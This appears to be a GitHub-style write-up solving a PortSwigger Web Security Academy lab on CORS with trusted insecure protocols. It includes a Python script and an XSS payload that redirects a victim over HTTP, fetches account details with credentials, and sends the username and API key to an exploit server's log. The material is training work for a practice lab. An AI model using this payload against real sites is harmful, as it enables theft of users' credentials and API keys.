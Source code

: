## Web security academy
### Lab Title: CORS vulnerability with trusted insecure protocols
### Lab: 03
Extracting the administrator API-KEY using CORS vulnerability with trusted insecure protocols.

## My Points:

1. **Introduction:** <br>[Portswigger's web security academy](https://portswigger.net/) is a platform that provides practice labs for finding web application vulnerabilities. In this Lab-03 the victim is redirected to the insecure protocols to get the API-KEY.

2. **Technique Fetch Method :**
     - **Fetch Method:** is used to get the resources like XMLHttpRequest, and for details check the references.
     - **Burpsuite**: Burpsuite is used to check the requests and responses because it's good to check what's going on in the request/response. To run the code on windows or linux, Python version 3 should be installed in the system and also check that the import libraries are also properly installed e.g. request. Burp suite must be started to run the code.
     <br>
     
     > Windows: 
     ```
     python lab-03.py
     ```
     
     > Linux:
     ```
     python3 lab-03.py
     ```


3. **Code:**
     - **Define main variables:**
     
        ```    
        # Burp Suite proxy
        proxy_urls = {
          'http': 'http://127.0.0.1:8080',
          'https': 'http://127.0.0.1:8080',
        }
       
        ```
        <br>
        
     - **User inputs:** When the program executes, it takes Lab URL and Exploit Server URL from the user.
      - **Note:** The default exploit server's URL that ends with /exploit used in this code that's why don't change /exploit unless you know how to edit the code.   

        ```        
        if __name__ == "__main__":
         # User input: Lab URL(s)
         k_lab = input("Enter Lab URL: ").strip().rstrip("/").lstrip("https://")
         k_exploit_server = input("Enter Exploit Server URL: ").strip().rstrip("exploit").rstrip("/")

         if (not (k_lab and k_exploit_server)):
             print()
             print("[-] Error! Input URL(s) missing.")
             print("[-] Lab URL: https://a...........c2.web-security-academy.net")
             print("[-] Exploit Server URL: https://exploit-a...........c2.web-security-academy.net/exploit")
             sys.exit()
         else:
             main()
        ```     
     
        - Enter URL: Get lab URL from your browser address bar and paste it.

        - Enter URL: Get Exploit Server URL from your browser address bar and paste it.
    <br>

    - **Main Function:** After giving the required input the main function is called.

        ```        
        def main():
          # Xss injection + account APIKEY request + send APIKEY to exploit server
         cors_access = f"<script>location=\"http://stock.{k_lab}/?productId=1<script>fetch('https://{k_lab}/accountDetails',{{credentials:'include'}}).then(res=>res.json()).then(data=>fetch('{k_exploit_server}/exploit/log?key='%2BencodeURIComponent(data.username%2B':'%2Bdata.apikey)))%3C/script>&storeId=1\"</script>"

         payload = {
             'urlIsHttps':'on',
             'responseFile': '/exploit',
             'responseHead': "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8",
             'responseBody': cors_access,
             'formAction':'DELIVER_TO_VICTIM'
         }

         # Send payload to exploit server
         res = requests.post(
             k_exploit_server, 
             data = payload, 
             headers = {'Content-type':'application/x-www-form-urlencoded'},
             proxies = proxy_urls,
             verify = False
             )

         if res:
             api_key = get_apikey()

             if api_key:
                 print('APIKEY: ' + api_key)
             else:
                 print('[-] Error in getting APIKEY.')
         else:
             print('[-] Error in sending payload to exploit server.')          
        ```

       The main points of this function:
     
     1. Location is used to redirect to the insecure path.
     2. Xss attack injected to the product ID.
     3. In Xss a **<script>** is injected using fetch method, and fetch method credentials are also included in the request. 
     4. After getting a response, again a fetch method is used to send username and apikey to the exploit server. I am only sending ( username : apikey ) in this format.
     5. Then get_apikey() function is called. In this function, API-KEY is extracted using regular expression.
     <br>
     
     
     ```        
     def get_apikey():
          res = requests.get(k_exploit_server + '/log', proxies=proxy_urls, verify=False)

         if res:
             data = requests.utils.unquote(res.text)
             pattren = re.compile('administrator:(\S*)')
             result = pattren.search(data)

             if result and result.group(1) is not None:
                 return result.group(1)
             else:
                 return False
          
      ```


## References:
   - [https://portswigger.net/web-security/dashboard](https://portswigger.net/web-security/dashboard)
   - [https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API)

